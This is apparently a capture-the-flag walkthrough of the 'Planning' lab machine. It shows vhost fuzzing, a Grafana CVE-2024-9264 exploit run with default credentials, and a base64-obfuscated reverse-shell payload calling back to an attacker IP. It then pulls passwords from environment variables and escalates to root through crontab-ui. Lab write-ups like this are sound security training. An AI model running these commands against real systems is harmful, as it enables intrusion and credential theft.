




# STG.01 · RECON
Default creds baked into the description. Edukate + grafana vhost.
Box ships with admin / [REDACTED] printed on the profile. Nmap shows nginx hosting Edukate — Online Education Website; no obvious vulns. Vhost fuzz:

# shell · operator@kali
$ ffuf -H "Host: FUZZ.planning.htb" -w dns-Jhaddix.txt \
-u http://planning.htb -fs 178 -t 1000
grafana [Status: 302, Size: 29]
# STG.02 · GRAFANA
DuckDB SQL plugin → base64 bash → shell.
Public exploit nollium/CVE-2024-9264 does the whole thing:
# shell · operator@kali
$ python3 CVE-2024-9264.py -u admin -p [REDACTED] \
-c 'echo c2gtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44My80NDQ0IDA+JjE= | base64 -d | bash' \
"http://grafana.planning.htb/"
[*] Logged in as admin
[*] Executing command: echo c2gtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44My80NDQ0IDA+JjE= | base64 -d | bash# shell · root@container
$ nc -lvnp 4444
connect to [10.10.16.83] from (UNKNOWN) [10.10.11.68] 46788
# id
uid=0(root) gid=0(root) groups=0(root)# STG.03 · ENUM
The container's `env` is a password vault.
# shell · root@grafana-container
# env
GF_SECURITY_ADMIN_PASSWORD=[REDACTED]
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_AUTH_AnonymousEnabled=false
# shell · enzo@planning
enzo@planning:~$ cat user.txt
[FLAG]# STG.04 · ROOT
linpeas flags a crontab.db, crontab-ui wants the same password.
# shell · enzo@planning
$ linpeas.sh | tee /tmp/pe.log
[+] Searching tables inside readable .db/.sql/.sqlite files
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data
$ cat /opt/crontabs/crontab.db
{"name":"GrafanaBackup","command":"/usr/bin/docker save root_grafana ...",
"schedule":"@daily","created":"1740872983270",...}
$ ss -tuln
LISTEN 127.0.0.1:8000
LISTEN 127.0.0.1:3000

# crontab-ui · root
Name: pwn
Command: cp /root/root.txt /home/enzo/ && chmod 777 /home/enzo/root.txt
Schedule: * * * * *
[Run now]
$ cat /home/enzo/root.txt
[FLAG]